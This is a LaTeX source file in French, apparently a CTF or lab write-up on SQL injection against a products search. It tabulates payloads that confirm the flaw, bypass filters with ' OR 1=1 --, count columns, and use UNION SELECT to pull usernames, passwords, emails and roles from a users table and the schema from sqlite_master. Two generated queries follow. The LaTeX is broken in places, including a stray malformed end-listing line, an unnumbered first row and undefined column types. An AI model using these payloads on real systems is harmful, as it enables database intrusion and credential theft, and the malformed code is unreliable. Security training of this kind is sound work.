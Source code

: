 \documentclass[12pt,a4paper]{report}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{center}
\begin{tabular}{C{0.6cm} L{3.2cm} L{4.5cm} L{4.5cm}}
  \toprule
  \textbf{\#} & \textbf{Objectif} & \textbf{Injection} & \textbf{Résultat attendu} \\
   & Détecter la faille
    & \code{'}
    & Erreur SQL — faille confirmée \\[4pt]
  2 & Contourner les filtres
    & \code{' OR 1=1 --}
    & Tous les produits affichés \\[4pt]
  3 & Compter les colonnes
    & \code{' ORDER BY 6 --}
    & 6 colonnes identifiées \\[4pt]
  4 & Exfiltrer les utilisateurs
    & \code{' UNION SELECT 1,username,password,email,role,6 FROM users --}
    & Identifiants récupérés \\[4pt]
  5 & Cartographier la BDD
    & \code{' UNION SELECT 1,name,sql,3,4,5 FROM sqlite\_master --}
    & Structure complète + flags CTF \\
  \bottomrule
\end{tabular}
\end{center}

\subsection{Challenge 4 — Exfiltration par UNION SELECT}

\begin{lstlisting}[language=SQL, caption={Requête générée par l'injection du challenge 4}]
SELECT * FROM products
WHERE name LIKE '%'
UNION SELECT 1, username, password, email, role, 6 FROM users --'%'
\end{lstlisting}

La clause \code{UNION SELECT} fusionne les résultats de deux requêtes.
Le nombre de colonnes doit être identique (6 colonnes, déterminé au
challenge 3). Les valeurs \code{1} et \code{6} sont des placeholders
pour correspondre aux colonnes de la première requête.

\subsection{Challenge 5 — Cartographie via sqlite\_master}

\begin{lstlisting}[language=SQL, caption={Lecture du schéma de la base de données}]
SELECT * FROM products
WHERE name LIKE '%'
UNION SELECT 1, name, sql, 3, 4, 5 FROM sqlite_master --'%'
\end_lstlisting}
\end{lstlisting}
\end{document}
